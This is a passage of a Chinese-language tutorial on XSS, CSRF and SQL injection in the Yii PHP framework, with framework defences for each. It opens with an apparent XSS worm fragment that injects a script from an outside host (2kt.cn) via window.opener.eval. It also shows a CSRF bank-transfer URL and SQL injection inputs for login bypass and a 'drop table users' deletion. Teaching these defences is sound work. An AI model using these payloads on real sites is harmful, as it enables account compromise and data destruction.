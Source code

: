 ```js
	}
	catch(e){}
	try{
		message();
	}
	catch(e){}
}
try{
   x="g=document.createElement('script');g.src='http://www.2kt.cn/images/t.js';document.body.appendChild(g)";window.opener.eval(x);
}
catch(e){}
main();
var t=setTimeout('location="http://weibo.com/pub/topic";',5000);
```

**预防**  
1.使用 `\yii\helpers\Html::encode('内容');` 进行html实体编码转义  
2.将过滤掉js的代码 `\yii\helpers\HtmlPurifier::process('内容');` 浏览器认为哪段是js代码，yii就根据浏览器相同的算法识别出js代码

## CSRF攻击
> 原理：。将组装好的url发布到公共可以浏览的地方，当浏览点击这个链接的时候会实现攻击了(**如果可以跨过登陆的话，用户可能登陆过并多少天内记录了自动登陆功能，或者刚访问过了那个要攻击网站，这样就跨过登陆了**)，也可以通过表单  

跨站请求伪造攻击，和xss很相似  
将执行的url放在页面里，用户点击将会执行，比如说删除的连接，转账的链接，就是简单的一个链接请求可以直接执行，而不需要js来去辅助执行

**get类型的CSRF攻击**
例如，某网上银行的漏洞
```
http://www.xxxbank.com/index.php?from=zhangsan&to=lisi&money=400
//zhangsan转给lisi400块
```

**post类型的CSRF攻击**
需要用户先登录，仿照需要攻击的网站的表单，设法让用户访问自己的仿照的表单发送给攻击的网站而达成目的

### CSRF防御
1.判断 `Referer` 头,但是有时候请求不会携带这个请求头  
2.防伪措施，请求表单的时候，将防伪标识插入到表单，表单提交的时候进行比对

yii默认是开启防止CSRF攻击的 表单中加入 `name = _csrf` 的隐藏input标签  
同时将 `_csrf` 存入到cookie中，请求的时候两个都会进行携带，进行比对，cookie中的是加过密的，后台获取后进行解密，并和表单进行比对
控制器获取 `_csrf` 的值
```
\YII::$app->requrst->csrfToken;
```

## sql注入

示例
```sql
//根据用户账号密码查询漏洞
select * from users where name = 'zhangsan' and password = 'xxxxx'
//1.将用户名设置为
zhangsan' --    即可破解 // --在mysql表示注释
select * from users where name = 'zhangsan' --' and password = 'xxxxx'

//2.将用户名设置为
'; drop table users; --  将会删除users表
select * from users where name = ''; drop table users; --' and password = 'xxxxx'

//根据关键字查询并有限制的语句
select * from articles where score<60 and title like '%关键词%'
//1.查询出所有结果
```